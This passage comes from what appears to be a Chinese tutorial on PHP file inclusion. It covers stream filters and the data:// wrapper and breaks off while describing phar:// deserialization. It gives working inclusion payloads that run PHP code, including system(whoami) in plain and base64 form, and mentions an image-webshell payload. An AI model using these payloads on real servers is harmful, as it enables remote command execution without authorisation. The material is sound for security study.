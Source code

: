 

| 压缩过滤器                        | 作用                                                         |
| --------------------------------- | ------------------------------------------------------------ |
| zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。              |





| 加密过滤器 | 作用                   |
| ---------- | ---------------------- |
| mcrypt.*   | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |

[更多过滤器](https://www.php.net/manual/zh/filters.php)

#### data:// 协议

前提

`allow_url_fopen:on`  以及`allow_url_include:on`  `PHP>=5.2.0`



可以使用`data://`数据流封装器，以传递相应格式的数据。

通常可以用来执行PHP代码

`data://text/plain,<?php%20phpinfo();?>`



举个例子：

Payload

**直接执行命令**

`data:text/plain,<?php system(whoami)?>`

`data:text/plain;base64,PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==`

**图片马执行命令**



Payload：

`data://image/jpeg;base64,..... #图片马的base64`



#### phar:// 协议

其实严格来说是php反序列化的漏洞，不过不需要`unserialize()`

**phar的文件结构**

**stub（引导头）**

可以理解为一个标志，类似ELF文件的魔数，也就是文件头
